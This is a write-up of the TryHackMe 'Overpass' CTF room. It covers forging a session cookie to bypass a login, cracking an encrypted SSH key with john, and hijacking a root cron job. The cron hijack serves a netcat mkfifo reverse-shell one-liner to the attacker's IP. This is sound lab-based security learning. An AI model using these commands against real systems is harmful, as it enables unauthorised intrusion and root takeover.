 ```yaml
---
title: "TryHackMe - Overpass writeup"
date: 2022-09-17 02:32:00 +0300
image: /assets/img/Posts/overpass.png
categories: [Tryhackme, Easy]
tags: [cronjobs, cookies, web, john the ripper, ssh]
---
```


| Room       | [Overpass](https://tryhackme.com/room/overpass)            |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Easy                                                       |

> description: What happens when some broke CompSci students make a password manager? I guess we are about to find out.
{: .prompt-tip }

This write up explains my approach towards solving overpass a tryhackme machine was testing on a bit of OWASP top 10, john and cron jobs.

## Let's begin
First we start with nmap scan using the command `sudo nmap -A -sV -T4 [target IP] -oN nmap.txt`. We find that only two ports are open, `22` and `80`. We know that port `22` runs SSH right? and port `80` is always http.
![image](/assets/img/Posts/overpass/nmap_overpass.webp)

So i went on and opened my browser and visited the website that is running on the machine at port `80` just by pasting the IP in the url tab.
![image](/assets/img/Posts/overpass/welcome_overpass.webp)
Navigating through the web, i found nothing juicy that i could use against the machine. So i went on and tried to scan for any hidden the directories using gobuster and found an /admin directory, wow!!
```bash
gobuster dir -e -u http://[targetIP] -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 50 | tee gobustlog
```
<!--![image](/assets/img/Posts/overpass/gobusteroverpass.webp)-->
we found a login for the admin user but we don’t have any hint on the username or password so far, what now? checking the code? yes, i found a javascript file `login.js`
![image](/assets/img/Posts/overpass/scripts_overpass.webp)

Going through its code, in the very bottom i saw a `login` function which seemed vulnerable and indeed it was. The if condition was checking for the valid credential. If incorrect, it was outputting `Incorrect Credentials`, but if correct, it was setting a Cookie named `SessionToken` and redirecting the user to `/admin`. I wondered if the server was actually validating the cookie and we can utilize that to our benefit by setting any cookie value and hopefully work.
![image](/assets/img/Posts/overpass/vulncode_overpass.webp)

So, there are to ways we can go about this,
First one is, we need to open the developer’s tools by right-clicking on the page and clicking the `inspect` option then we go to `storage` and choose `cookies` and press the `+` at the top right corner and change the name to `SessionToken` and the path to `/`

And the second is opening the console and and setting the cookie

```js
Cookies.set(“SessionToken”, 200)
```
When you are done, you reload the page and boom!!! you have the RSA key for user james as it is mentioned in the text.
![image](/assets/img/Posts/overpass/sshkey.webp)
![image](/assets/img/Posts/overpass/sshkey1.webp)

Copied the key and saved it in my host machine and don’t forget it is encrypted. So we use ss2john to convert it

```bash
ssh2john jamesid > james_id
```

and then crack the password

```bash
john james_id — format=SSH — wordlist=/usr/share/wordlists/rockyou.txt
```
We get the passphrase and to login to the ssh account
![image](/assets/img/Posts/overpass/ssh2john_ovepass.webp)
## user flag
It is is right in the home directory, all you have to do is cat the user.txt file
```bash
cat user.txt
```

## root flag
To get the root flag we should become root user. How? lets see if there is something we can exploit to escalate our privileges

### privilege escalation

I decided to use linpeas (a linux privilege escalation automated script) from this page. i had to get it to the target machine from my host machine. So, i started server in my machine and used wget command in the target machine to download the file from my server

We change its mode to executable 
```bash
chmod +x linpeas.sh
```
and then execute it `./linpeas.sh`

and going through the log or the findings, the cron jobs section caught my eye. it looks like the machine is executing the buildscript.sh from the overpass.thm domain as root…really interesting!!!!!!

So we can change and imitate the directory to the script and change its contents to a reverse shell command and get the shell as root…woow!!.

lets get to it right away
![image](/assets/img/Posts/overpass/crontab_overpass.webp)
From that point, i simulated the `overpass.thm/downloads/src/buildscript.sh` by creating the directory `downloads` and within it, i created `src` and finally created the `buildscript.sh` file and placed a one liner reverse shell netcat command

```bash
mkdir downloads

cd downloads

mkdir src

cd src

nano buildscript.sh

and paste the netcat command in the created file

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <yourIP> 1234 >/tmp/f
```
make it executable
```bash
chmod +x buildscript.sh
```
and started a python server from the base directory where the the downloads dir is located `sudo python3 -m http.server 80`
and in the target machine i added my IP to the /etc/hosts file and with the domain overpass.thm
![image](/assets/img/Posts/overpass/target_hosts_file.webp)
we listen to port specified in the reverse shell command and patiently waited for the connection from the remote machine as root. yes!!!! we got the connection as root!!!

to get the flag
```bash
cat root.txt
```
![image](/assets/img/Posts/overpass/root_overpass.webp)

hope you enjoyed the write up!!. thank you 😁